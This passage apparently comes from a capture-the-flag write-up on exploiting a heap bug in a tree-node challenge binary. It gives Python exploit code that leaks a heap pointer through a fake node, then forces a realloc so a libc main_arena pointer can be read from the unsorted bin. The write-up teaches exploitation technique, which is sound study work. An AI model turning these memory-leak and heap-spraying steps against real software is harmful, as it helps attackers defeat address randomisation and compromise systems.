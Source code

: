 ```python
    # By selecting a fake 'node' in the heap, we get a heap pointer leak
    leak = int(select_node(s, idx))
```

### Libc Leak
Now that we know the address of the **heap**, we can place our own addresses of fake nodes instead of relying on the ones already there on the heap.

To start we just **reset the tree** to avoid crashing on further operations from having added an invalid node for the leak. We do it with `select_node(s, del_N + 1)`, which simply selects one of the valid nodes we had inserted before. The `sp_select` function does `tree->root_node = result` and so we just go back to the original (not corrupted) state.

Before leaking a libc address we also need to make one show up on the heap. To do this we'll trigger a **realloc** in the `op_5_add_node` function, which, since there is no continuous space available, will **free** `tree->nodes` and copy the data to a **new malloc'ed area**. The block being freed is large and therefore does not go on the tcache or fastbins, but is instead placed in the **unsorted chunk list**, which is a doubly linked list.
As a comment in [glibc's source code](https://code.woboq.org/userspace/glibc/malloc/malloc.c.html#4360) mentions:

 > "Place the chunk in unsorted chunk list. Chunks are not placed into regular bins until after they have been given one chance to be used in malloc."

Being the only *chunk* in the list at this moment, both the **forward** and **back** pointers, now point to the `main_arena` which is the structure in **libc** that holds these lists of free *chunks*.

Having this address on the heap we can now leak it. We spray the heap with an address so that `node->node_val_2` points to the libc address and then index into it with `op_4_select` as we did before.

The last thing we need to make sure is that **the realloc'ed chunk is placed before the old free chunk** so we can use positive indexes in `op_4_select`. To do this we delete all the nodes we inserted except the last few ones to prevent the realloc from extending the old chunk. This way the new chunk is placed before the old chunk. *(afterwards we realized we could use negative indexes as well, so this step was unecessary)*

This is the code we wrote to accomplish it:
```python
    # ==========
    # Leak libc addr
    # ==========
    log.info("Leaking a libc addr:")

    # Create nodes just before a call to `realloc` for the `tree->nodes`
    # Put the addr where our libc leak will be in the node so we can then index into it
    leak_libc_addr = heap + 720
    for _ in range(305 - 1):
        create_node(s, arg2=leak_libc_addr)

    # Delete most nodes inserted to get space for the next `realloc`
    # We need this to ensure the realloc comes above the alocated nodes so we can index into it
    for k in range(j - 1, 10, -1):
        del_node(s, k)

    # Trigger the `realloc`
    create_node(s, arg2=leak_libc_addr)

    leak_libc_idx = (0xb48 / 8)
    leak_libc = int(select_node(s, leak_libc_idx))
```
